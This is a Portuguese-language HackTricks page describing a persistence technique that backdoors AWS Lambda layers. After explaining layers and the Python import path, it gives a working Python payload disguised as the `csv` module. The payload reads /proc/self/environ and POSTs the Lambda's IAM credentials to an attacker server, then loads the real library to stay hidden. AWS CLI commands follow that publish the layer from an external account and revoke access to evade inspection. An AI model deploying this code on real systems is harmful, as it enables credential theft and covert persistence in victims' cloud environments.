 # AWS - Persistência de Camadas Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Camadas Lambda

Uma camada Lambda é um arquivo .zip que **pode conter código adicional** ou outro conteúdo. Uma camada pode conter bibliotecas, um [runtime personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dados ou arquivos de configuração.

É possível incluir até **cinco camadas por função**. Quando você inclui uma camada em uma função, o **conteúdo é extraído para o diretório `/opt`** no ambiente de execução.

Por **padrão**, as **camadas** que você cria são **privadas** à sua conta AWS. Você pode optar por **compartilhar** uma camada com outras contas ou **tornar** a camada **pública**. Se suas funções consumirem uma camada que uma conta diferente publicou, suas funções podem **continuar a usar a versão da camada após ela ter sido excluída, ou após sua permissão para acessar a camada ser revogada**. No entanto, você não pode criar uma nova função ou atualizar funções usando uma versão de camada excluída.

Funções implantadas como uma imagem de contêiner não usam camadas. Em vez disso, você empacota seu runtime preferido, bibliotecas e outras dependências na imagem do contêiner ao construir a imagem.

### Caminho de carregamento do Python

O caminho de carregamento que o Python usará na lambda é o seguinte:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifique como as **segundas** e **terceiras** **posições** são ocupadas por diretórios onde **lambda layers** descompactam seus arquivos: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

> [!CAUTION]
> Se um atacante conseguir **backdoor** uma **layer** lambda usada ou **adicionar uma** que estará **executando código arbitrário quando uma biblioteca comum for carregada**, ele poderá executar código malicioso com cada invocação da lambda.

Portanto, os requisitos são:

- **Verificar bibliotecas** que são **carregadas** pelo código das vítimas
- Criar uma **biblioteca proxy com lambda layers** que irá **executar código personalizado** e **carregar a biblioteca original**.

### Bibliotecas pré-carregadas

> [!WARNING]
> Ao abusar dessa técnica, encontrei uma dificuldade: Algumas bibliotecas já estão **carregadas** no tempo de execução do python quando seu código é executado. Eu esperava encontrar coisas como `os` ou `sys`, mas **até a biblioteca `json` estava carregada**.\
> Para abusar dessa técnica de persistência, o código precisa **carregar uma nova biblioteca que não esteja carregada** quando o código é executado.

Com um código python como este, é possível obter a **lista de bibliotecas que estão pré-carregadas** dentro do tempo de execução do python na lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E esta é a **lista** (verifique se bibliotecas como `os` ou `json` já estão lá)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E esta é a lista de **bibliotecas** que **lambda inclui instaladas por padrão**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring de Camada Lambda

Neste exemplo, vamos supor que o código alvo está importando **`csv`**. Vamos **backdoor a importação da biblioteca `csv`**.

Para fazer isso, vamos **criar o diretório csv** com o arquivo **`__init__.py`** nele em um caminho que é carregado pelo lambda: **`/opt/python/lib/python3.9/site-packages`**\
Então, quando o lambda for executado e tentar carregar **csv**, nosso **arquivo `__init__.py` será carregado e executado**.\
Este arquivo deve:

- Executar nosso payload
- Carregar a biblioteca csv original

Podemos fazer ambos com:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Então, crie um zip com este código no caminho **`python/lib/python3.9/site-packages/__init__.py`** e adicione-o como uma camada lambda.

Você pode encontrar este código em [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

O payload integrado **enviará as credenciais IAM para um servidor NA PRIMEIRA VEZ que for invocado ou APÓS um reset do contêiner lambda** (mudança de código ou lambda fria), mas **outras técnicas** como as seguintes também poderiam ser integradas:

{{#ref}}
../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md
{{#endref}}

### Camadas Externas

Note que é possível usar **camadas lambda de contas externas**. Além disso, uma lambda pode usar uma camada de uma conta externa mesmo que não tenha permissões.\
Também note que o **número máximo de camadas que uma lambda pode ter é 5**.

Portanto, para melhorar a versatilidade desta técnica, um atacante poderia:

- Backdoor uma camada existente do usuário (nada é externo)
- **Criar** uma **camada** em **sua conta**, dar **acesso à conta da vítima** para usar a camada, **configurar** a **camada** na Lambda da vítima e **remover a permissão**.
- A **Lambda** ainda poderá **usar a camada** e a **vítima não** terá nenhuma maneira fácil de **baixar o código das camadas** (além de conseguir um rev shell dentro da lambda)
- A vítima **não verá camadas externas** usadas com **`aws lambda list-layers`**
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{{#include ../../../../banners/hacktricks-training.md}}
